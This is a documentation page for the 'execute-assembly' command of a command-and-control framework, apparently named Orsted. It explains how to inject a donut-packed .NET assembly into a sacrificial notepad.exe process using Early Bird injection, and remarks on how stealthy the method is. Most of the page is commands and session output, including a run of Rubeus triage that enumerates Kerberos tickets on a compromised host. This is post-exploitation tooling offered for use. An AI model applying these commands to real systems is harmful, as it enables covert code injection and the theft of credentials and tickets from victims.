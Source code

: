 ```yaml
---

title: execute-assembly
descripton: orsted c2 execute-assembly
---
```


### General

`execute-assembly` allows you to load and run donut assembly in a remote process.

It is the classic fork and run.

```
[Session 9: haroun@DESKTOP-DU89UIV] » execute-assembly --help

Load and Execute NET Assembly with donut

Usage:
  execute-assembly [flags] file [args...]

Args:
  file  string         Assembly to load
  args  string list    Argument of the Assembly

Flags:
  -h, --help              display help
  -m, --method  string    Method to load Assembly (default: 1)
  -p, --process string    Sacrificial Process (default: C:\Windows\System32\notepad.exe)
```

It requires you to load the `execute-assembly` dll with `load-module execute-assembly`

Currently only one method is supported (Early Bird). It is not very opsec. Future methods will be available.

```powershell
[Session 9: haroun@DESKTOP-DU89UIV] » execute-assembly Rubeus.exe triage
```

The output will be something like

```
[Session 9: haroun@DESKTOP-DU89UIV] » execute-assembly Rubeus.exe triage
+--------+-----------+---------+---------------------------------+
| TASKID | SESSIONID |  STATE  |             COMMAND             |
+--------+-----------+---------+---------------------------------+
|    103 |         9 | pending | execute-assembly 1              |
|        |           |         | C:\Windows\System32\notepad.exe |
+--------+-----------+---------+---------------------------------+
[Session 9: haroun@DESKTOP-DU89UIV] »
 >>> execute-assembly --method 1 --process C:\Windows\System32\notepad.exe Rubeus.exe triage
 <<<
STDOUT --->
Task Register Successufully
STDERR --->


 >>> execute-assembly --method 1 --process C:\Windows\System32\notepad.exe Rubeus.exe triage
 <<<
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


Action: Triage Kerberos Tickets (Current User)

[*] Current LUID    : 0x598b2

 ---------------------------------------
 | LUID | UserName | Service | EndTime |
 ---------------------------------------
 ---------------------------------------


```



